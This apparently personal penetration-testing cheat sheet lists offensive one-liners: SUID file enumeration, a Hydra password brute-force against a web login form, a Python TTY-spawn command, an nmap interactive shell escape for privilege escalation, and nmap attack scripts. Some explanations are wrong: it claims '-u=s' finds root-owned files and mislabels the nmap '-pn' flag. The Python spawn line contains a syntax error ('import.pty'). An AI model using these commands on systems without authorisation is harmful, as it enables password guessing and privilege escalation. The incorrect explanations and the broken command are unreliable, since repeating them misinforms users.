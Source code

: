Find all files with SUID bit

    find / -perm -u=s -type f 2>/dev/null

or

    find / -perm -4000 -type f 2>/dev/null

Explanation:

    /denotes  start from the top (root) of the file system and find every directory
    -permdenotes search for the permissions that follow
    -u=sdenotes look for files that are owned by the root user
    -typestates the type of file we are looking for
    f denotes a regular file not the directories or special files
    2 denotes to the second file descriptor of the process, i.e. stderr (standard error)
    > means redirection
    /dev/null is a special filesystem object that throws away everything written into it.


Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt

To remove all duplicates in a dictionary file

    cat filename.txt | sort | uniq > outfile.txt

Spawn bash

    python -c 'import.pty;pty.spawn("/bin/bash")'

nmap interactive

	nmap --interactive
	!bash -p
more nmap
	-sL : list targets to scan
	-pn : disable port scan(ping sweep?)
	
cool nmap scripts
	
	--script=http-enum
	--script=http-default-accounts
	--script=http-phpmyadmin-dir-traversal
List of nmap scripts	
https://nmap.org/nsedoc/
